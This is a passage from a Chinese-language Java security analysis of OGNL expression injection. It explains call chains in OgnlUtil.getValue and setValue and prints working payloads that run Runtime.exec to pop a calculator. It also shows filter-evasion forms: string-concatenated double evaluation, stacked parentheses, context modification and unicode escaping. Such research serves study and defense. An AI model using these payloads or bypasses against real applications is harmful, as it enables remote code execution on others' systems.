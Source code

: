所以，比如使用 Runtime 弹计算器，原本的表达式可以这样写：
```
@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')
```
但是使用 `(one)(two)` 可以改成这样：
```
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```
将 one 用字符串括起来，甚至是进行拼接，后面再跟一个括号，这样程序就会对 one 进行二次解析，第一次解析成为字符串，第二次解析成为对应的 AST 并执行，也可以将其中的部分变量拆分到 two 中，因为 two 会作为 one 的 root 解析执行，可以拿到其中的值。

又由于表达式的执行是由右向左执行的，因此向右面写入更多个括号，都会依次拆分，最后执行到 one 表达式中：

```
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('su18')('su19')('su20')('su21')('su22')('su23')('su24')('su25')('su26')('su27')('su28')('su29')
```
或者向左叠入更多层级的括号：

```
('su23')(('su22')(('su21')(('su20')(('su19')(('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('su18'))))))
```
这些写法都不影响最终 one 表达式的执行，如下图均可以成功弹出计算器：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296375.png)

以上是使用`Ognl.parseExpression()`  加 `Ognl.getValue()` 来执行的，与 `OgnlUtil.getValue()` 一致。

那使用 `OgnlUtil.setValue()`，调用会一致吗？答案是否定的。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296377.png)

如上图，我们的 payload 报错了，为什么呢？`OgnlUtil.setValue()` 的调用链为：`OgnlUtil.setValue()`-> `OgnlUtils.compile()` ->`Ognl.setValue()` -> `Node.setValue()` -> `SimpleNode.evaluateSetValueBody()` ->`ASTEval.setValueBody()`。

在 `ASTEval.setValueBody()` 中，分别取了 `children[0]` 的 `children[1]` Node 并调用其 `getValue()` 方法。这个方法的调用链为：`SimpleNode.getValue()` 、`SimpleNode.evaluateGetValueBody()`、 `ASTEval.getValueBody()`，到这步进入了 `OgnlUtil.getValue()` 的漏洞触发链。

也就是说，在使用 `OgnlUtil.setValue()` 执行恶意表达式时，要比 `OgnlUtil.getValue()` 多出一步取节点并执行的步骤，如下图两种方法都可以弹出计算器：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296383.png)

上面讨论了调用静态方法的表达式，那如果想要修改 context 里的值呢？根据官方文档的描述和测试的结果，以下的方式都可以：

```
('#context[\'key\']=aaaa')('su18')
('#context[\'key\']')('su18')=aaa
('#context[\'key\']=#a')(#a='aaa')
```

还有关键的一点是：在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296384.png)
